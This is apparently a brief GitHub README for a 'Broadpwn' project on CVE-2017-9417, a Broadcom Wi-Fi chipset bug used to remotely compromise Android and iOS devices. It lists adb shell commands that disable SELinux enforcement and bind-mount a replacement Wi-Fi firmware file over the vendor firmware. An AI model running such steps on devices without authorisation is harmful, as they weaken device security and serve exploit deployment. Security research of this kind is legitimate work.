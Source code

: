 # Broadpwn
Broadpwn bug (CVE-2017-9417)

Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  setenforce 0
  
  cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  stop
  
  start
